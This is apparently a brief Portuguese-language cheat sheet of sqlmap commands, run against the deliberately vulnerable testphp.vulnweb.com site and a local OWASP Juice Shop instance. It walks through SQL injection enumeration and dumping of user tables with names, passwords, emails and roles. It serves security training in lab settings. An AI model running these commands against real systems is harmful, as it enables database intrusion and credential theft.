 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```
```
sqlmap -u  "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs -D acuart --tables
```
``` 
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs -D acuart -T users --columns
```
``` 
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs -D acuart -T users -C name,pass,uname,email --dump
``` 
Database Schema Juice-Shop
``` 
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users -C email,password,role --dump --threads=4
```
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
